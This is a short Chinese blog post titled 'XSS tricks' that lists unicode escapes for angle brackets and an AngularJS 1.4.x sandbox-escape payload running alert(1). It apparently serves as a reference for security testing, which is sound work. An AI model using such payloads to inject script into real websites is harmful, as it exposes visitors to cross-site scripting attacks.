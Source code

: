 ```yaml
---
title: XSS技巧
date: 2018-05-30 19:47:04
tags: [xss]
categories:
thumbnail:
---
```


# XSS技巧

1. 基础级

    `\u003c` == `<`

    `\u003e` == `>`

2. AngularJS

    ```javascript
    1.4.0 - 1.4.9
    
    {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
    ```

